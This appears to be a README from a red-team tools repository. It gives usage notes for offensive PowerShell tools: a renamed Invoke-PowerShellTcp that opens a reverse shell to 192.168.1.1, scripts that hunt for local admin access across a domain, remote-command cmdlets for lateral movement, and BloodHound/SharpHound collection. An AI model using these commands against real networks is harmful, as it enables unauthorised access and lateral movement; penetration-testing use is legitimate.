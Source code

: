 ## Interesting Tools

### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```
### Enter-PSSession (cmdlet)
---
Starts an interactive session with a single remote computer. During the session, the commands that you type run on the remote computer, just as though you were typing directly on the remote computer. You can have only one interactive session at a time.
```powershell
C:> Enter-PSSession -ComputerName COMPUTER
```
### Invoke-Command (cmdlet)
---
Runs commands on a local or remote computer and returns all output from the commands, including errors.
```powershell
C:> invoke-command -ComputerName WCOMPUTER -ScriptBlock {whoami}

```
### WinRS.exe
---
```powershell
C:> winrs.exe -r:COMPUTER cmd
```
### BloodHound
---

Setup:
- Install and run neo4j:
```powershell
C:> neo4j.bat install-service
C:> neo4j.bat start
```
- Go to http://localhost:7474 and log using `neo4j` and `neo4j`.
- Change the password for `neo4j` user to the desireed one
- Run `BloodHound.exe` from `BloodHound-win32-x64`
- Will ask for credentials: bolt://localhost:7687  -  neo4j  -  PASSWORD

Run Collectors:

- Powershell:
```powershell
C:> . .\SharpHound.ps1
C:> Invoke-BloodHound -CollectionMethod All -Verbose
```
